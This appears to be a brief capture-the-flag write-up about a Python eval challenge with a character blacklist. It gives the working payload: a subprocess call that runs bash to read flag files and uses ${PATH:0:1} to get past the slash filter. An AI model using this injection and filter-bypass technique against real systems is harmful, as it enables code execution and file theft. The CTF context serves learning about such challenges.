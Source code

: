 # made by Mel

it's essentially an eval statement, but with some blacklisting.

this was the payload i used. it bypassed slashes by using ${PATH:0:1} (the path varible substringed to just be a slash), along with some extra funnies

`__import__("subprocess").check_output(["bash","-c","cat ${PATH:0:1}flag*"])`
